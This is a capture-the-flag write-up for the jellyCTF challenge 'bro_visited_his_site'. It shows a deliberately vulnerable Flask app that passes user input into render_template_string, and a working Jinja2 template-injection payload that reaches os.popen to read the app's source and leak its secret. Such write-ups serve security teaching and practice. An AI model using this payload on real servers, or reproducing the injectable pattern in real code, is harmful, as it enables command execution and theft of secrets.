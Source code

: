# bro_visited_his_site
Writeup author: **lolmenow**

Point count: 358pts

Difficulty: easy

Provided files: bro_visited_his_site.zip

Url: https://bro-visited-his-site.jellyc.tf/

Description: bro stored his secrets in the flask app config
# 

Upon visiting the website, it seems like we type anything in this box and it just reflects what we put in the box.

Seeing this, I immediately thought that our input might not be sanitized properly, so I took a look at the source code.

```
#!/usr/bin/env python3
from flask import Flask, request, render_template_string, send_from_directory

app = Flask(__name__)
app.config["FLAG"] = "jellyCTF{redacted}"

@app.route("/")
def index():
    return """
        <img src="/static/bro.jpg" />
        <form action="/response" method="get">
            <textarea cols="50" name="word"></textarea>
            <input type="submit" value="go">
        </form>
    """

@app.route("/response")
def response():
    word = request.args.get("word", "")

    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    ''')

@app.route('/static/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081, debug=True)
```

Yup! We see that in the response route, specifically in the way it uses render_template_string to render the user input, the users input is put directly into the template without proper sanitization. This makes the website vulnerable to `Server-Side Template Injection (SSTI)`

Once knowing this, I used hacktricks SSTI Jinja 2 SSTI [payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) (because we know the website is running with flask) and kept trying payloads until one worked.

This one worked!

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

*Note: `bros_site.py`, as mentioned above, contains the secret in the flask config, hence why we need to read it*

Once injected into the `word` parameter, we get this:

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/0921d7e0-7d2f-4d90-a830-4cf1e095102d)

And there it is! Our flag!

Final flag: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`
